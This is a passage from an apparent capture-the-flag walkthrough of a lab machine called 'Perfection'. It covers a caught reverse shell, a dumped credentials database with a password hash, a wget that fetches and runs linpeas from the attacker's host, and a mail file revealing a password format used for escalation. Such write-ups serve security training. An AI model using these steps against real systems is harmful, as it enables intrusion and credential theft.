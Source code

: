 Now, we had our listener running on `6969` and we caught the call!

![](/images/perfection/perf7.png)

We then head over to `/home/susan/` and snag our `user.txt`!


![](/images/perfection/perf8.png)

Great, now with a shell on the system we can look to escalate our session. We stabalize our shell and start to look for a way to escalate. We start to manually sift around and find a `pupilpath_credentials.db` file. We can give it a quick `cat` and see its some username / password action:

```
��^�ableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
a�\
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023fs
```

We'll put a pin in this info and come back, as we could use it later. We transfer over `linpeas` to the `/tmp` directory and give it a run.

Host our web server:
`python3 -m http.server 80`

On our compromised system:
`wget http://10.10.14.2/lp.sh`
`chmod +x lp.sh`
`./lp.sh`

We let `linpeas` run and sift through all the information there, as usual - a lot isn't actionable - one thing that is, is that `susan` can leverage `sudo` with no password since she is in group `27`. This is only useful if we have her password to start with, since it's required to `sudo` and currently, `sudo -l` gives us nothing. We also see at the very end of the `linpeas` ouput we see some mail in the `/var/mail` directory:

![](/images/perfection/perf9.png)

When we view the contents of the file we get the following message:

```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```
